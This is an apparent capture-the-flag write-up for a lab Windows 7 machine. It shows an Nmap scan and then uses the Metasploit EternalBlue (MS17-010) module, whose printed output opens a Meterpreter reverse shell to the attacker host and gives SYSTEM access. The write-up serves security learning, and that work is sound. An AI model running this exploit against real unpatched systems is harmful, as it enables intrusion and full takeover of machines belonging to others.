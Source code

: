 # Blue Write-ups

\# BlueBrain

## Enumeration

### Nmap

```
# nmap -sC -sV -oA nmap-scripts 10.10.10.40
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 23:16 EDT
Nmap scan report for 10.10.10.40
Host is up (0.15s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-27T03:22:13
|_  start_date: 2024-05-26T12:21:11
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -19m53s, deviation: 34m35s, median: 3s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-05-27T04:22:17+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 347.79 seconds
```

Nmap reveals that SMB is open, among other things.

The target is running Windows 7 Professional SP1, which is a prime candidate for EternalBlue (MS17-010)

## Exploitation

### Metasploit

Exploitation is very straight forward. The `exploit/windows/smb/ms17_010_eternalblue` Metasploit module will immediately grant a root shell. Grab the flags from `c:\Users\haris\Desktop\user.txt` and `c:\Users\Administrator\Desktop\root.txt`

```
...
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.16.12:4444 -> 10.10.10.40:49160) at 2024-05-26 23:29:57 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > shell
Process 248 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
